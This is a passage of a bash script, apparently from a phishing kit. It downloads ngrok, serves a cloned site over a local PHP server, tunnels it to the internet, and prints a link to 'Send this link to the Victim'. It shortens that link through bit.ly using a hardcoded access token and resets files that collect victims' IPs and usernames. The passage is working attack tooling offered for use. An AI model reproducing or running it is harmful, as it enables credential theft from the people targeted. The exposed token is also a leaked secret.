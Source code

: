if [[ -e ngrok-stable-linux-arm.zip ]]; then
unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-arm.zip
else
printf "\e[1;93m[!] Download error... Termux, run:\e[0m\e[1;77m pkg install wget\e[0m\n"
exit 1
fi



else
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1 
if [[ -e ngrok-stable-linux-386.zip ]]; then
unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-386.zip
else
printf "\e[1;93m[!] Download error... \e[0m\n"
exit 1
fi
fi
fi

printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
cd sites/$server && php -S 127.0.0.1:5555 > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m*\e[1;92m] Starting ngrok server...\n"
./ngrok http 127.0.0.1:5555  > /dev/null 2>&1 &
sleep 10

link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[-0-9a-z]*\.ngrok.io")
printf "\e[1;92m[\e[0m*\e[1;92m] Send this link to the Victim:\e[0m\e[1;77m %s\e[0m\n" $link
Accesstoken=433bdc6028d67bba06cf95286e923cde8c0906c7
api=https://api-ssl.bitly.com/v4/shorten
short_link=`curl -s -H Authorization:\ $Accesstoken -H Content-Type: -d '{"long_url": "'"$link"\"} $api | jq -j .link | xsel -ib; xsel -ob;` 
printf "\e[1;92m[\e[0m*\e[1;92m] Use shortened link instead:\e[0m\e[1;77m %s\e[0m\n" $short_link
echo ""
echo ""

checkfound
}
start_localtunnel()  {
if [[ -e sites/$server/ip.txt ]]; then
rm -rf sites/$server/ip.txt

fi
if [[ -e sites/$server/usernames.txt ]]; then
rm -rf sites/$server/usernames.txt

fi

printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
cd sites/$server && php -S 127.0.0.1:5555 > /dev/null 2>&1 & 
sleep 2
